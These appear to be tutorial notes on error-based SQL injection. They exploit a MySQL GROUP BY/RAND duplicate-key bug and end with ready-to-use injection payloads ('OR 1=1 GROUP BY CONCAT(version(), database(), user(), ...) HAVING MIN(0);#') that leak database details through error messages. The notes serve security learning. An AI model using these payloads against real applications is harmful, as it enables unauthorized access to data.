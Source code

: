 1. <u>Bug in MySQL</u>  
   Bug Present in old versions of MySQL  
   [MySQL Bugs: 82544](https://bugs.mysql.com/bug.php?id=82544)  

By using seed we are going to generate the same values every time. If the table has at least 3 entries then by rounding the values 2 of they are going to be the same and we can cause the bug

````sql
-- Seed will create the same values very time
SELECT name, RAND(0) 
FROM users; 

-- Column with rounded values
SELECT name, RAND(0), ROUND(RAND(0)) 
FROM users; 

SELECT name 
FROM users 
GROUP BY ROUND(RAND(0));
````

2. <u>Triggering the Bug</u>

````sql
SELECT name 
FROM users 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);

SELECT name, COUNT(*) 
FROM users 
GROUP BY ROUND(RAND(0));
````

The count() approach is mostly useless as the statement till the where clause is going to be fixed by the application we can only control the part that comes after the where clause

````sql
SELECT name 
FROM users 
WHERE username="sagar" OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);
````

3. <u>Getting Information using Bug</u>

````sql
OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);#

OR 1=1 
GROUP BY CONCAT(version(), " ", database(), " ", user(), " ", ROUND(RAND())) HAVING MIN(0);#
````
